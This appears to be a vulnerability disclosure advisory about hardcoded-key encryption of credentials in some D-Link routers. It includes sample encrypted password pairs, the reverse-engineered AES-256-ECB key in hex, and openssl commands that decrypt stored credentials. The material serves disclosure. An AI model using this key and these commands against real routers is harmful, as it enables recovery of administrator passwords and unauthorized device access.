 # FDEU-CVE-2021-525A

# Summary

D-Link credentials decryption tool poc.


# Tech details

This tools is used to decrypt credentials stored in some Dlink routers.
Encryption and decription is done using a symmetric key hardcoded inside the firmware.


# Custom encryption

The original research was done during Cgates D-Link DIR-825AC router analysis.
Read more: [FDEU-CVE-2021-2F01](../2021/FDEU-CVE-2021-2F01-vulnerable-cgates-router-outdated-acs-server.md)

In order to create a decryption tool you have two options:

1. disassemble the code and reverse enginneer the algorithm
2. re-use the stock binary code to perform decryption for you

The 1) method is very good for academic reasons and may end up as a beautiful write-up,
but sometimes it may take a lot of wasted time. In our case we took 2) approach as we
only needed a quick proof of concept for a week hardcoded crypto.

# Code

The code is just a few lines and is hosted in a separate repo:

[https://github.com/full-disclosure/FDEU-CVE-2021-525A](https://github.com/full-disclosure/FDEU-CVE-2021-525A)


# Examples

<pre>
96f6e6cab3c87a5c5c419aa7208711f6:admin
92f000a7fdc6857fddfb67912ae1f158:admi01
b32c2f797761deaa7ecb0eba6de06a93:a
0ccfa27563fe46641a69711be8d6df1e:dlinkpwned
85d1855f861062da50deea1eaeaeaee51d63798a4ceca7fb98701f3cad2a20db:fulldisclosure.eu
</pre>

# Update

An anonymous Github user has reverse-engineered the

AES ECB key (in hex):

```
47456e20521d432100090065250000524c2f000020004d000765001f00096b02
```

Direct decryption using openssl:

```
echo -n  92f000a7fdc6857fddfb67912ae1f15800000000000000000000000000000000 | xxd -r -p | openssl enc -d -aes-256-ecb -K 47456e20521d432100090065250000524c2f000020004d000765001f00096b02
echo -n  85d1855f861062da50deea1eaeaeaee51d63798a4ceca7fb98701f3cad2a20db00000000000000000000000000000000 | xxd -r -p | openssl enc -d -aes-256-ecb -K 47456e20521d432100090065250000524c2f000020004d000765001f00096b02
```

# Timeline

<pre>
2021-01-04 - initial research and poc
2021-07-09 - full disclosure
2022-02-22 - AES key reverse-engineered
</pre>
